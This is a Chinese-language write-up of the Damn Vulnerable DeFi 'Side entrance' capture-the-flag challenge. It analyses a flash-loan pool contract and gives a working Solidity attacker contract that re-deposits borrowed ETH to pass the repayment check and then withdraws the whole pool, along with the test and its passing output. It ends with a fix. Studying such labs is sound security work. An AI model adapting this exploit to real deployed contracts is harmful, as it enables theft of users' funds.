

# 🚪Challenge #4 - Side entrance 側門


A surprisingly simple lending pool allows anyone to deposit ETH, and withdraw it at any point in time.

This very simple lending pool has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.

You must take all ETH from the lending pool.

- [See the contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v2.2.0/contracts/side-entrance)
- [Complete the challenge](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.2.0/test/side-entrance/side-entrance.challenge.js)

題目說有一個借貸池提供免費 [[FlashLoan]] 借貸的服務，我們的目標是將池子裡的 1000 ETH 歸給 attacker

## 合約研讀：尋找攻擊點

- 首先觀察一下flashLoan 的 function，會發現基本上我們只要想辦法讓 Balance 維持一樣就可以不用還錢，那我們有辦法把錢一樣留在池子裡面，但是改變所有權嗎？

```solidity
    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= amount, "Not enough ETH in balance");
        // ✨ 可以讓外部用借來的錢做任何事
        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        require( //  可以想辦法讓餘額不變，就可以不用還錢 ✨
            address(this).balance >= balanceBefore,
            "Flash loan hasn't been paid back"
        );
    }
```

- 再往下看可以看到有提款、存款的功能，是我們可以改變餘額、轉錢給自己的入口。所以我們可以使用合約發動攻擊，在 `IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();` 當中存錢到 `SideEntranceLenderPool` 當中，這樣餘額不會變，且 balance 的所有權也可以變成我們自己。

```solidity
    function deposit() external payable {
        balances[msg.sender] += msg.value; //  ✨ 可以改變餘額
    }

    function withdraw() external {
        uint256 amountToWithdraw = balances[msg.sender];
        balances[msg.sender] = 0;
        payable(msg.sender).sendValue(amountToWithdraw); //  ✨ 可以轉錢給自己
    }
```

## 實現攻擊

### 實現 IFlashLoanEtherReceiver 攻擊合約

- 寫一個實現 IFlashLoanEtherReceiver 的合約
- 實現 execute 中 deposit 給 pool，讓 pool 以為合約餘額沒有變就是已還款
- 實現可以收款、提款的功能



```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import "./SideEntranceLenderPool.sol";
import "@openzeppelin/contracts/utils/Address.sol";

/**
 * @title SideEntranceLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract ReceiverAttackerSideEntrance is IFlashLoanEtherReceiver {
    SideEntranceLenderPool pool;
    using Address for address payable;
    address owner;

    constructor(address _pool) {
        owner = msg.sender;
        pool = SideEntranceLenderPool(_pool);
    }

    function execute() external payable override {
        pool.deposit{value: 1000 ether}();
    }

    function attack(uint256 amount) external {
        pool.flashLoan(amount);
    }

    function withdraw(uint amount) external {
        pool.withdraw();
        require(owner == msg.sender);
        payable(msg.sender).sendValue(amount);
    }

    fallback() external payable {}
}

```

### 滿足測試

```jsx
    it('Exploit', async function () {
        const receiverAttacker = await (await ethers.getContractFactory('ReceiverAttackerSideEntrance', attacker)).deploy(this.pool.address);
        await receiverAttacker.attack( ETHER_IN_POOL );
        await receiverAttacker.withdraw(ETHER_IN_POOL);
    });
```

```
  [Challenge] Side entrance
    ✓ Exploit (131ms)

  1 passing (1s)

✨  Done in 4.92s.
```

## 🔧 總結 & 修改方式

[操弄依變因攻擊](https://www.notion.so/2a0407b1936b4540a1b45c930e346336)

- **弱點：** 這題屬於 [[操弄依變因攻擊]]，
- **攻擊：** 通過把 pool 在 [[FlashLoan]] 借給我們的錢在重新存回 pool 通過了 pool 本身的 `address(this).balance >= balanceBefore` 檢查
- **改進：** 那要怎麼確保有還錢？而且還錢的一定是使用者？AAVE 的 FlashLoan 已經提供給我們解法，就是讓借貸者先 approve 然後 pool 合約本身做 transferFrom，這樣就可以確保，我們一定從借貸方抽取了借貸費用。 AAVE 有直接在[文件](https://docs.aave.com/developers/guides/flash-loans#completing-the-flash-loan)當中說明 ： > You **do not** need to transfer the owed amount back to the `Pool`. The funds will be automatically *pulled* at the conclusion of your operation.

借貸者需事先 approve 款項，AAVE V3 使用safeTransferFrom向使用者抽取費用，或者使用者也可以[使用抵押品來還錢](https://github.com/aave/aave-v3-core/blob/master/contracts/protocol/libraries/logic/FlashLoanLogic.sol#L132)。

## 4.4 完整合約

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import "@openzeppelin/contracts/utils/Address.sol";

interface IFlashLoanEtherReceiver {
    function execute() external payable;
}

/**
 * @title SideEntranceLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract SideEntranceLenderPool {
    using Address for address payable;

    mapping(address => uint256) private balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value; //  ✨ 可以改變餘額
    }

    function withdraw() external {
        uint256 amountToWithdraw = balances[msg.sender];
        balances[msg.sender] = 0;
        payable(msg.sender).sendValue(amountToWithdraw); //  ✨ 可以轉錢給自己
    }

    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= amount, "Not enough ETH in balance");
        // ✨ 可以讓外部用借來的錢做任何事
        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        require( //  可以想辦法讓餘額不變，就可以不用還錢 ✨
            address(this).balance >= balanceBefore,
            "Flash loan hasn't been paid back"
        );
    }
}

```
